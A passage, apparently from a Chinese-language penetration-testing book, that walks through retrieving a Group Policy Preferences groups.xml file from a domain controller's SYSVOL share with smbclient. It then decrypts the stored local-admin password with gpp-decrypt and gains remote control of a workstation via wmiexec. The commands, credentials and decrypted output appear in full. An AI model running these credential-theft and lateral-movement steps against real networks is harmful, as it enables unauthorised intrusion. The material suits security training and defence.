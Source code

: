 smbclient返回托管在此文件夹中的多个xml文件。域控制器依赖这些文件（groups.xml、ScheduledTasks.xml等）在域计算机上部署特定配置。

例如，这样一种有用的配置是在任何新工作站上设置本地管理用户。这通常是通过'groups.xml'文件完成的。

当然，每一个自动创建帐户都需要一个密码存储机制，还有什么比创建帐户所用的同一个文件groups.xml更好的地方来存储这些关键信息呢？groups.xml是一个必须由任何工作站（包括域用户）按设计读取的文件！

正如您在下面的屏幕中看到的，使用get命令，我们可以检索到名为wk_admin密码为“obfuscated”的本地管理帐户：
```
root@PIspy:# smbclient //10.10.20.199/SYSVOL -U GBSHOP\\dvoxon
%Bird123! -c "get \GBSHOP.CORP\Policies\{6AC1786C-016F-11D2-945F-
00C04fB984F9}\USER\Preferences\Groups\groups.xml"
```
![](chap4/chap4-3.jpg)

我们可以通过反转加密方案（AES-256）来恢复密码的明文版本，因为几年前微软无意中在其网站上发布了密钥：
![](chap4/chap4-4.jpg)

```
root@FrontGun:# gpp-decrypt
6gKTm/tvgxptRmOTeB4L1L6KcfLrPMwW8w6uvbqEvhyGbFtp6sSBueVYpTS+
ZcIU
7stringsRockHell*
```

答对了！(GPP解密在ARM版本的Kali上不可用。我们在前置服务器上解密密码)

现在我们有了一个有效的本地管理员帐户，我们终于可以在管理员的工作站上远程执行命令了。在一些罕见的情况下，UAC可能会让我们感到不安，但默认情况下，主本地管理员帐户不会受此影响。

使用wmiexec进行的快速测试证实，我们确实完全控制了工作站：
![](chap4/chap4-5.jpg)
